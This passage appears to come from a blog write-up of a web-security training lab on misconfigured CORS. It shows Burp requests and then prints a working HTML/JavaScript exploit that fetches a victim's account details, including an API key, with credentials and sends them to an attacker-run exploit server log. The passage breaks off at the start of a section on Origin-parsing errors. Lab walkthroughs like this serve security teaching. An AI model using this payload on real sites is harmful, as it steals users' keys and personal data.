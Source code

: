 After logging in we can see an API key we need to fetch admin’s API key to finish the lab.

![](https://miro.medium.com/max/770/1*2nRbg8Zj-NA2wOZ6YRdaJA.png)

We can see in burp a request to `/account-details` is made which fetches the user's data. Send this request to the repeater.

![](https://miro.medium.com/max/770/1*gVTLRhQXjcQeQNJkLWYq_Q.png)

Let’s test for Misconfigured CORS. Add an ORIGIN header in our request and see the response if it is allowed.

![](https://miro.medium.com/max/770/1*MA5xRIBfHfKy-HQbnAsr2w.png)

Our Web was included in the ACAO header. Now we know our web is vulnerable but the question is how we can access the admin key through this. We need to write a javascript code and host it on our exploit server to include the response to the request made when the victim visits it.

<html>  
<body>  
<script>  
var req = new XMLHttpRequest();   
req.onload = reqListener;   
req.open('get','https://0a08005b047893acc0ef1484004100a1.web-security-academy.net/accountDetails',true);   
req.withCredentials = true; req.send();    
function reqListener() {      
location='/log?key='+this.responseText;   
};  
</script>  
</body>  
</html>

This script will make the request to /accountDetails and add the response to the link in our exploit servers logs.

Store the exploit on our server and then deliver it to the victims after that when we check the access logs we can see administrator’s information is disclosed.

![](https://miro.medium.com/max/770/1*un7W6PwvLimYDeLeN3D4Mw.png)

That’s how personal information can be leaked by misconfigured CORS implementation.

![](https://miro.medium.com/max/770/1*WxmEvYatUcllDnZwJLCM6w.png)

# Errors parsing Origin headers:

Some websites allow access to white-listed domains and also all of their subdomains. This can be a security risk because attackers might be able to bypass this filter by registering a similar subdomain.

**For example :**

Scenario A:
